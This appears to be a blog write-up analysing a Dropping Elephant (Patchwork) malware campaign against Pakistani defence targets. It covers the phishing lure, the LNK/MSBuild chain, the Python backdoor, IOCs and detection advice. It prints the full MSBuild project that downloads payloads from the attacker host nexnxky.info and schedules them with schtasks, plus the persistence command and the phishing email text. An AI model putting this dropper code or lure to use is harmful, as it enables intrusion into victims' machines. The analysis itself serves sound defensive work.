


Hello and welcome to my second article! I am very excited to write about my journey in learning malware analysis.

A few days ago, I was watching Malware Incident Response Training from  **[maltrak.com](https://maltrak.com)**. I wanted to practice what I learned, so I decided to find a real malware sample and analyze it myself. I needed a place to find these samples, and that's when I discovered  **[Malpedia](https://malpedia.caad.fkie.fraunhofer.de/library)**. This website is very useful for analysts because it has a huge collection of malware information and samples from many different hacker groups.

While searching on Malpedia, a group called "Dropping Elephant" got my attention. This group is also known as "Patchwork" and is believed to be from India. They are famous for attacking government, defense, and research organizations in South Asia, especially in Pakistan and China.

Then, I found a new report from 22 November 2025 by a security researcher named **[Idan Tarab](https://www.linkedin.com/posts/idan-tarab-7a9057200_india-backdoor-msbuild-activity-7397661496421470208-ltCf/)** about this group's latest activity. The report described a new stealth backdoor using "MSBuild" to hide their malware. I noticed the report included a reference to a post on [**X**](https://x.com/__0XYC__/status/1991382897543245882) (formerly Twitter) containing the sample, which was exactly what I needed!

In this article, I will show you my analysis of this new backdoor from the Dropping Elephant group. We will look at how it works, how it hides, and what we can learn from it. Let's begin

### Part 1: The Spear-Phishing Email

The attack starts with a very clever and targeted spear-phishing email. The hackers pretend to be from a real Pakistani company to trick the victim into trusting them.

Let's look at the email they sent:

**Subject:** `Strengthening Defense Collaboration Between NRTC and HIT`

**Body:**
```
Dear Sir,

Greetings from the National Radio and Telecommunication Corporation (NRTC).

NRTC recognizes the pivotal role Heavy Industries Taxila (HIT) plays in Pakistan's defense industry, particularly in the design, development, and manufacturing of armored fighting vehicles and advanced defense systems. We greatly value HIT's extensive expertise in developing indigenous main battle tanks, armored personnel carriers, and specialized fire support vehicles.

Given the strong alignment between HIT's armored vehicle platforms and NRTC's advanced defense communication and electronic warfare technologies, we are keen to explore collaborative opportunities to integrate our communication systems and electronic defense solutions with HIT's platforms. Such synergy will advance Pakistan's defense self-reliance and battlefield modernization objectives.

Project outlines and detailed requirements are accessible here: [https://nrtc.com.pk/Defence/Requirements](hXXps://fileonlinetransfer[.]center/Defence/Requirements.rar)  
Access By: Xcd@34VFDI

We look forward to initiating discussions to identify specific areas where close cooperation can strengthen our national defense capabilities.


Regards:

Sgn Ldr (r)
Muhammad Iqbal 
Manager (Air & Strat Wing) 
National Radio & Telecommunication Corporation
```


**The First Trap: The Malicious Link**

The email tells the victim to click on a link to see the "project outlines." However, the link does not go to the real `nrtc.com.pk` website.

The real link hidden in the email is:  
```
hXXps://fileonlinetransfer[.]center/Defence/Requirements.rar
```

This is the first step of the attack. The victim thinks they are downloading important documents, but they are actually downloading a malicious RAR archive file.

Of course! This is a very important detail that shows the attackers' operational security. Here is the updated section with your findings included.

***

### Part 2: The Malicious Archive and MSBuild Exploit

In the first part, we saw how the victim downloads a file called `Requirements.rar`. Now, let's see what is inside this archive.

When the victim opens the RAR file, they see two files:
1.  `2025.pdf` - This is the decoy document.
2.  `Requirements.pdf` - This is the dangerous file.

But `Requirements.pdf` is not a real PDF! It is a **Windows Shortcut (LNK) file** that has been renamed to look like a PDF. This is a very common trick to hide malware.

**The LNK File Trap**

If we look at the properties of this fake `Requirements.pdf.lnk` file, we see its real command. The "Target" field reveals the attack:

`C:\Windows\Microsoft.NET\Framework64\v4.0.30319\MSBuild.exe 2025.pdf`



This command is the heart of the attack. Let's break it down:

*   **`MSBuild.exe`**: This is a legitimate Windows program used by developers to compile software projects. It is a trusted part of the Windows system.
*   **`2025.pdf`**: This is the file we thought was just a decoy. But it is not a normal PDF!

The hackers are using a technique called **"Living Off The Land" (LOLBAS)**. This means they are using clean, trusted Windows programs like [`MSBuild.exe`](https://lolbas-project.github.io/lolbas/Binaries/Msbuild/) to do their dirty work. Because `MSBuild.exe` is a legitimate program, it often doesn't raise alarms with antivirus software.

**A Clever Roadblock: Geo-Blocking**

Before we look inside the "PDF," I encountered a problem during my analysis. When the MSBuild script tried to download the second-stage malware from the server `nexnxky.info`, the connection was **blocked**.

This is because the attackers use **Geo-blocking**. They configure their server to only accept connections from specific countries, like Pakistan. Since I was analyzing from a different location, the server rejected my request.



To continue my analysis, I had to use a **Pakistan-based proxy**. This made my internet connection appear to come from Pakistan, and the server then allowed the download. This shows the attackers are careful to only target victims in their region of interest, which also helps them avoid detection by security researchers worldwide.

**Inside the "PDF": The Malicious Code**

When we open the `2025.pdf` file in a text editor like Notepad, we see it is not a PDF at all. It is actually an **MSBuild Project file** written in C# code inside an XML file.

```xml
<Project xmlns="http://schemas.microsoft.com/developer/msbuild/2003" DefaultTargets="MyTarget">
  
  <UsingTask TaskName="DownloadAndSchedule" TaskFactory="CodeTaskFactory" 
             AssemblyFile="C:\Windows\Microsoft.NET\Framework64\v4.0.30319\Microsoft.Build.Tasks.v4.0.dll">
    <ParameterGroup>
      <Url ParameterType="System.String" Required="true" />
      <OutputPath ParameterType="System.String" Required="true" />
      <TaskName ParameterType="System.String" Required="true" />
      <DelayMinutes ParameterType="System.Int32" Required="true" />
    </ParameterGroup>
    <Task>
      <Reference Include="System" />
      <Code Type="Class" Language="cs">
<![CDATA[
```
``` csharp
using System;
using Microsoft.Build.Framework;
using Microsoft.Build.Utilities;

public class DownloadAndSchedule : Task
{
    [Required]
    public string Url { get; set; }
    
    [Required]
    public string OutputPath { get; set; }
    
    [Required]
    public string TaskName { get; set; }
    
    [Required]
    public int DelayMinutes { get; set; }
    
    public override bool Execute()
    {
        try
        {
            System.Net.ServicePointManager.SecurityProtocol = (System.Net.SecurityProtocolType)3072;
            
            Log.LogMessage(MessageImportance.High, "Downloading from: " + Url);
            
            System.Net.WebClient client = new System.Net.WebClient();
            client.DownloadFile(Url, OutputPath);
            
            Log.LogMessage(MessageImportance.High, "Downloaded to: " + OutputPath);
            
            string arguments;
            
            if (DelayMinutes == 0)
            {
                // Run immediately
                arguments = string.Format(
                    "/run /tn \"{0}\"",
                    TaskName
                );
                
                // First create the task
                string createArgs = string.Format(
                    "/create /tn \"{0}\" /tr \"\\\"{1}\\\"\" /sc once /st 23:59 /f",
                    TaskName,
                    OutputPath
                );
                
                System.Diagnostics.ProcessStartInfo createPsi = new System.Diagnostics.ProcessStartInfo();
                createPsi.FileName = "schtasks.exe";
                createPsi.Arguments = createArgs;
                createPsi.UseShellExecute = false;
                createPsi.CreateNoWindow = true;
                
                System.Diagnostics.Process createProcess = System.Diagnostics.Process.Start(createPsi);
                createProcess.WaitForExit();
                
                if (createProcess.ExitCode != 0)
                {
                    Log.LogError("Failed to create scheduled task");
                    return false;
                }
                
                Log.LogMessage(MessageImportance.High, "Created task: " + TaskName);
                
                // Now run it immediately
                System.Diagnostics.ProcessStartInfo runPsi = new System.Diagnostics.ProcessStartInfo();
                runPsi.FileName = "schtasks.exe";
                runPsi.Arguments = arguments;
                runPsi.UseShellExecute = false;
                runPsi.CreateNoWindow = true;
                
                System.Diagnostics.Process runProcess = System.Diagnostics.Process.Start(runPsi);
                runProcess.WaitForExit();
                
                if (runProcess.ExitCode == 0)
                {
                    Log.LogMessage(MessageImportance.High, "Task executed immediately: " + TaskName);
                }
                else
                {
                    Log.LogError("Failed to run scheduled task");
                    return false;
                }
            }
            else
            {
                // Schedule task to run after specified minutes
                DateTime runTime = DateTime.Now.AddMinutes(DelayMinutes);
                string scheduleTime = runTime.ToString("HH:mm");
                
                arguments = string.Format(
                    "/create /tn \"{0}\" /tr \"\\\"{1}\\\"\" /sc once /st {2} /f",
                    TaskName,
                    OutputPath,
                    scheduleTime
                );
                
                System.Diagnostics.ProcessStartInfo psi = new System.Diagnostics.ProcessStartInfo();
                psi.FileName = "schtasks.exe";
                psi.Arguments = arguments;
                psi.UseShellExecute = false;
                psi.CreateNoWindow = true;
                
                System.Diagnostics.Process process = System.Diagnostics.Process.Start(psi);
                process.WaitForExit();
                
                if (process.ExitCode == 0)
                {
                    Log.LogMessage(MessageImportance.High, "Scheduled task created: " + TaskName);
                    Log.LogMessage(MessageImportance.High, "Will run at: " + scheduleTime);
                }
                else
                {
                    Log.LogError("Failed to create scheduled task");
                    return false;
                }
            }
            
            return true;
        }
        catch (Exception ex)
        {
            Log.LogError("Error: " + ex.Message);
            return false;
        }
    }
}
``` 
```xml
]]>
      </Code>
    </Task>
  </UsingTask>

  <UsingTask TaskName="DownloadOnly" TaskFactory="CodeTaskFactory" 
             AssemblyFile="C:\Windows\Microsoft.NET\Framework64\v4.0.30319\Microsoft.Build.Tasks.v4.0.dll">
    <ParameterGroup>
      <Url ParameterType="System.String" Required="true" />
      <OutputPath ParameterType="System.String" Required="true" />
    </ParameterGroup>
    <Task>
      <Reference Include="System" />
      <Code Type="Class" Language="cs">
<![CDATA[
```
``` csharp
using System;
using Microsoft.Build.Framework;
using Microsoft.Build.Utilities;

public class DownloadOnly : Task
{
    [Required]
    public string Url { get; set; }
    
    [Required]
    public string OutputPath { get; set; }
    
    public override bool Execute()
    {
        try
        {
            System.Net.ServicePointManager.SecurityProtocol = (System.Net.SecurityProtocolType)3072;
            
            Log.LogMessage(MessageImportance.High, "Downloading from: " + Url);
            
            System.Net.WebClient client = new System.Net.WebClient();
            client.DownloadFile(Url, OutputPath);
            
            Log.LogMessage(MessageImportance.High, "Downloaded to: " + OutputPath);
            
            return true;
        }
        catch (Exception ex)
        {
            Log.LogError("Error: " + ex.Message);
            return false;
        }
    }
}
``` 
```xml
]]>
      </Code>
    </Task>
  </UsingTask>

  <Target Name="MyTarget">
    <DownloadAndSchedule 
      Url="https://nexnxky.info/KWR67t.kts"
      OutputPath="C:\Windows\Tasks\pythonw.exe"
      TaskName="KeyboardDrivers"
      DelayMinutes="1" />
    
    <DownloadOnly 
      Url="https://nexnxky.info/LR62bu.Kus" 
      OutputPath="C:\Windows\Tasks\python310.dll" />
    
    <DownloadAndSchedule 
      Url="https://nexnxky.info/HYt6hs.RRt" 
      OutputPath="C:\Windows\Tasks\decmeMett.pdf"
      TaskName="MsEdgeDrivers"
      DelayMinutes="0" />
  </Target>

</Project>
```

This code does two main things:

1.  **It Downloads Malicious Files:** The code connects to the hacker-controlled server (`nexnxky.info`) and downloads three files:
    *   `pythonw.exe` -> Saved to `C:\Windows\Tasks\`
    *   `python310.dll` -> Saved to `C:\Windows\Tasks\`
    *   `decmeMett.pdf` -> Saved to `C:\Windows\Tasks\`

2.  **It Uses Windows Scheduled Tasks:** The code uses the `schtasks.exe` program (another legitimate Windows tool) to create scheduled tasks. This allows the malware to run automatically, even after a computer restart.

**How the Attack Unfolds:**

1.  The victim in Pakistan double-clicks the fake `Requirements.pdf` LNK file.
2.  The LNK file runs the command: `MSBuild.exe 2025.pdf`.
3.  `MSBuild.exe` reads the `2025.pdf` file, sees it is a build project, and executes the C# code inside it.
4.  The code downloads the files `pythonw.exe` and `python310.dll` to the `C:\Windows\Tasks\` folder. This is a clever hiding spot because it's a normal system folder.
5.  It creates a scheduled task named `KeyboardDrivers` to run `pythonw.exe` after a 1-minute delay.
6.  It also immediately runs the `decmeMett.pdf` decoy document. This is a brilliant trick! **While the victim is reading the decoy PDF, thinking it's a real project requirement, the backdoor is already being installed silently in the background.**

### Part 3: The Final Payload - A Stealthy Downloader and Backdoor Execution

In the previous part, we saw how the MSBuild script downloaded two files: `pythonw.exe` and `python310.dll`. Now, let's analyze these files to understand the final stage of the attack.

**The Decoy Executable: `pythonw.exe`**

When I analyzed `pythonw.exe` in IDA, I found it is a very simple file. It has only one important function: `Py_Main`. Its main job is to load the `python310.dll` file. The real malicious code is hidden inside the DLL.

**The Malicious DLL: `python310.dll`**

Inside `python310.dll`, I used a debugger to trace the real functions. The malware performs a series of steps to download more tools and establish persistence on the victim's computer.

**Step 1: Downloading the Next Tool**

The malware first needs to download another file. To do this, it uses Windows API calls:

1. It uses `LoadLibraryW` to load the `urlmon.dll` library, which contains functions for internet transfers.
2. It then uses `GetProcAddress` to get the location of the `URLDownloadToFileW` function.


After getting the download function, the malware needs to know _where_ to save the file. It uses `SHGetFolderPathW` to find the path to the `Local AppData` folder. Finally, it calls `URLDownloadToFileW` to download a file named `WindowsTEMP.zip` and saves it to the folder`C:\Users\Aynait\AppData\Local`.


**Step 2: Extracting the Zip File and Hiding the Backdoor**

Once the download is complete, the malware needs to extract the ZIP file. It does this by using the system's built-in `tar` command.

1. It uses `LoadLibraryW` again, this time to load `kernel32.dll`.
2. It gets the addresses for `CreateProcessW`, `WaitForSingleObject`, `CloseHandle`, and `DeleteFileW`.


The malware then uses `CreateProcessW` to run a command like this:  
`tar -xf C:\Users\Aynait\AppData\Local\WindowsTEMP.zip -C C:\Users\Aynait\AppData\Local`


When the `WindowsTEMP.zip` file is extracted in the `C:\Users\Aynait\AppData\Local` folder, it have a folder called **`PythonVersion3`**. Inside this folder, the attacker places the final backdoor components:

- A new `pythonw.exe` (the loader)
- The final backdoor, `python2_pycache_.dll`

**Step 3: Cleaning Up and Hiding Evidence**

Immediately after extraction, the malware cleans up its tracks. It uses the `DeleteFileW` function to delete the `C:\Users\Aynait\AppData\Local\WindowsTEMP.zip` file from the disk.


This is a clever trick. By creating a dedicated folder, the malware better mimics a legitimate software installation, making it less suspicious to both users and security software.

**Step 4: Establishing Persistence and Launching the Backdoor**

The final step is to make sure the malware runs again in the future. To launch the final backdoor, the malware uses `CreateProcessW` again.

It creates a scheduled task named `MicrosoftEdgeUpdate2Network`. This is a common trick to make the malware look like a legitimate Windows or Microsoft Edge update process.


The malware uses `WaitForSingleObject` again to ensure this task is created successfully.

**The Final Backdoor Execution**

The scheduled task is configured to run this command, pointing to the newly extracted files:  
```cmd
schtasks.exe /Create /F /SC MINUTE /MO 5 /TN "MicrosoftEdgeUpdate2Network" /TR "\"C:\Users\Aynait\AppData\Local\PythonVersion3\pythonw.exe\" \"C:\Users\Aynait\AppData\Local\PythonVersion3\python2_pycache_.dll\""
```

This command is the true goal of the entire attack:

- **`pythonw.exe`**: This is the loader from the `PythonVersion3` folder.
- **`python2_pycache_.dll`**: This is the **final backdoor** that was inside the `WindowsTEMP.zip` file. This is a stealthy Marshalled Python Backdoor that gives the attacker full control of the victim's computer.

### Part 4: The Final Reveal - Unpacking the Marshalled Python Backdoor

In Phase 3, we discovered that the final payload consists of `pythonw.exe` and `python2_pycache_.dll`. Now, let's analyze these final components to understand the true nature of this backdoor.

**The PyInstaller Loader: `pythonw.exe`**

My initial analysis of `pythonw.exe` in IDA showed it only had one function: `Py_Main`, which loaded `python313.dll`. I tried to debug `python313.dll` but found it contained many complex Python functions, making analysis very difficult.

I returned to Idan Tarab's original report and found the key information: **`pythonw.exe` is a PyInstaller executable**.

**What is PyInstaller?**  
PyInstaller is a legitimate tool that packages Python programs into a single executable file. It bundles the Python interpreter and all necessary script files into one `.exe`, making it easy to distribute Python programs. Attackers abuse this to create standalone malware that doesn't require Python to be installed on the victim's computer.

**The Marshalled Python Code: `python2_pycache_.dll`**

The file `python2_pycache_.dll` is not a real DLL. It contains **marshalled Python bytecode**.

**What is Python Marshalling?**

- Marshalling is a method of serializing Python code into a compact binary format.
- Instead of storing readable `.py` files, the code is compiled into bytecode and serialized.
- This makes the code harder to detect and analyze, as it's not plain text and can be loaded directly into memory without writing suspicious files to disk.

**Extracting the Backdoor's Secrets**

I built a Python script to extract information from this marshalled file. The script works by:

1. Reading the `python2_pycache_.dll` file
2. Using Python's `marshal.loads()` to deserialize the bytecode
3. Extracting imported libraries and string constants from the code object

Here's what we found:

**IMPORTED LIBRARIES:**  
The backdoor uses these Python libraries:

- `base64`, `ctypes`, `http`, `io`, `marshal`, `os`, `random`, `ssl`, `sys`, `threading`, `time`, `types`, `urllib`, `urlparse`, `wintypes`

This combination suggests sophisticated capabilities including:

- Network communication (`urllib`, `http`, `ssl`)
- Persistence and system interaction (`os`, `ctypes`, `wintypes`)
- Obfuscation (`base64`, `marshal`)
- Multi-threading for parallel operations (`threading`)

**CRITICAL FINDINGS - C2 SERVERS & ENDPOINTS:**  
We extracted these key strings that reveal the attacker's infrastructure:

**Command & Control Servers:**

- `nexnxky.info`
- `upxvion.info`

**Communication Endpoints:**

- `/klDjh93i789er989nmui_DGjkW/Fjhfsg78rbEyFjhgfmnfen903D_Fjhgd.php`
- `/lj782mGDl32ki44djfmjkFD3dfjlkh4/Fhjdjkle489_fjGDEkhkDG876F.php`

**Other Important Strings:**

- `Mozilla/5.0 (Windows NT 10.0; Win64; x64)` - Fake user agent to mimic legitimate browser traffic
- `edge`, `firefox` - More browser impersonation
- Various encoded strings that likely serve as authentication tokens or payload markers

**The Complete Attack Chain - Final Summary**

1. **Phase 1: Spear-Phishing** - Fake email with malicious link
2. **Phase 2: LOLBAS Dropper** - MSBuild executes malicious script disguised as PDF
3. **Phase 3: Downloader & Setup** - Downloads final payload, establishes persistence via scheduled tasks
4. **Phase 4: Stealth Backdoor** - PyInstaller loader executes marshalled Python backdoor that:
    - Communicates with C2 servers (`nexnxky.info`, `upxvion.info`)
    - Uses SSL encryption and fake browser identities
    - Can download/upload files, execute commands, and maintain persistent access

### Indicators of Compromise (IOCs)

This section provides technical indicators to help security teams detect and respond to this Dropping Elephant attack.

#### **File Hashes**

**Initial Delivery:**
*   **`Requirements.rar`**
    *   This is the file from the phishing email.
    *   **MD5:** `6E1A727D13017B46DCE82DC65A2E14AA`

**Stage 1 Payload (Downloaded by the MSBuild script):**
*   **`pythonw.exe`** (Initial Loader)
    *   The first loader that runs the malicious DLL.
    *   **MD5:** `B6C2CF15F7998BBDD36F3C9D7B5E9EC3`
*   **`python310.dll`** (Downloader)
    *   The file that downloads the final backdoor.
    *   **MD5:** `EAC9D4CA468A8698E63CFD806DEFFC05`

**Stage 2 Payload (Downloaded by `python310.dll`):**
*   **`WindowsTEMP.zip`**
    *   The archive containing the final backdoor. It is deleted after extraction.
    *   **MD5:** `A6F0EDAD1A8AB5C52AE2B1684F9A2503`

**Final Backdoor Components (Extracted from `WindowsTEMP.zip`):**
*   **`pythonw.exe`** (PyInstaller Loader)
    *   The loader that executes the marshalled backdoor.
    *   **MD5:** `D8A10C3B3D531A8F7D0615E9CB04914F`
*   **`python2_pycache_.dll`** (Marshalled Backdoor - **MALICIOUS**)
    *   This is the final backdoor. It contains the marshalled Python code.
    *   **MD5:** `4046CD7A59764A6DB7132D79A4CF7A8C`

#### **Network Indicators**

**Malicious Servers:**
*   `nexnxky[.]info`
*   `upxvion[.]info`
*   `fileonlinetransfer[.]center`

**Communication Endpoints:**
The backdoor communicates with these paths on the malicious servers:
*   `/klDjh93i789er989nmui_DGjkW/Fjhfsg78rbEyFjhgfmnfen903D_Fjhgd.php`
*   `/lj782mGDl32ki44djfmjkFD3dfjlkh4/Fhjdjkle489_fjGDEkhkDG876F.php`

#### **File System Artifacts**

**Look for these files on the computer:**
*   `C:\Windows\Tasks\pythonw.exe`
*   `C:\Windows\Tasks\python310.dll`
*   `C:\Users\[Username]\AppData\Local\PythonVersion3\pythonw.exe`
*   `C:\Users\[Username]\AppData\Local\PythonVersion3\python2_pycache_.dll`

#### **Persistence Mechanisms**

**Scheduled Tasks:**
The malware creates these tasks to stay on the computer:
*   **`KeyboardDrivers`**: Runs `C:\Windows\Tasks\pythonw.exe` after 1 minute.
*   **`MicrosoftEdgeUpdate2Network`**: Runs the final backdoor from the `PythonVersion3` folder every 5 minutes.

#### **How to Detect This Attack**

Security teams can look for these activities:
*   **MSBuild.exe** running a file with a `.pdf` extension (very suspicious!).
*   Python programs (`pythonw.exe`) running from unusual folders like `C:\Windows\Tasks\` or `AppData\Local`.
*   Network connections to the malicious servers we listed (`nexnxky[.]info`, etc.).
*   New scheduled tasks with names like `KeyboardDrivers` or `MicrosoftEdgeUpdate2Network`.

### **Conclusion**

The Dropping Elephant group uses a very stealthy and complex attack. They hide their malware using legitimate tools and clever tricks. However, by knowing the file hashes (MD5), network addresses, and other indicators from this report, security teams can now hunt for this threat in their networks. This analysis shows that even advanced attacks can be understood and detected with careful investigation.